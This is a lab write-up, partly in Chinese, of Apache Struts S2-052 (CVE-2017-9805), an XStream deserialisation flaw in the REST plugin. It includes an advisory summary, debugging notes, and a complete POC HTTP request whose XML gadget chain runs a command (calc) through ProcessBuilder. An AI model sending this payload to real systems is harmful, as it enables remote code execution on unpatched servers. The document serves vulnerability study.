

# S2-052 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | A RCE attack is possible when using the Struts REST plugin with XStream handler to deserialise XML requests |
| Maximum security rating | Critical                                                     |
| Recommendation          | Upgrade to [Struts 2.5.13](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.13) or [Struts 2.3.34](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34) |
| Affected Software       | Struts 2.1.6 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12     |
| Reporter                | Man Yue Mo <mmo at semmle dot com> ([lgtm.com](http://lgtm.com/) / Semmle). More information on the [lgtm.com](http://lgtm.com/) blog: https://lgtm.com/blog |
| CVE Identifier          | CVE-2017-9805                                                |

## Problem

Struts REST plugin 使用的`XStreamHandler`类在对`XML`反序列化时未进行任何的过滤，可造成远程代码执行。

## Environment

| Struts2 Version | Struts-2.3.24            |
| :-------------- | :----------------------- |
| Web Server      | Tomcat 8.5.53            |
| IDE             | IDEA 2020.1.1 ULTIMATE   |
| Demo            | Struts2官方rest-showcase |

## POC



payload:

```xml
POST /struts2_rest_showcase_war_exploded/orders.xhtml HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 2359

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>calc</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

## Debug

根据公开的漏洞信息，定位至`struts2-rest-plugin`下面的`XStreamHandler`类。不难看出`toObject`方法就是进行反序列化的，`fromXML`方法在对xml反序列化时未进行类型判断导致代码执行。有兴趣可以细跟一下`fromXML`，这里只简单调试下`struts2-rest-plugin`对XML的处理过程。

在`toObject`方法处下断点，发送`payload`触发：


根据栈帧，`XStreamHandler`上一层为`ContentTypeInterceptor`。点击Drop Frame 进入`ContentTypeInterceptor`。


首先是获取`HttpServletRequest`对象，并传入`getHandlerForRequest`。顾名思义，`getHandlerForRequest`是根据`HttpServletRequest`对象的类型获取对应的Handler。


当`ContentType`为`application/xml`的时候，返回`XStreamHandler`这个类来处理。


所以`handler.toObject(reader, target)`方法即进入了`XStreamHandler`类的`toObject`方法，执行反序列化操作触发漏洞。

## Reference

- [S2-052](https://cwiki.apache.org/confluence/display/WW/S2-052)
- [S2-052 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md)
- [https://blog.csdn.net/u011721501/article/details/77867633](https://blog.csdn.net/u011721501/article/details/77867633)
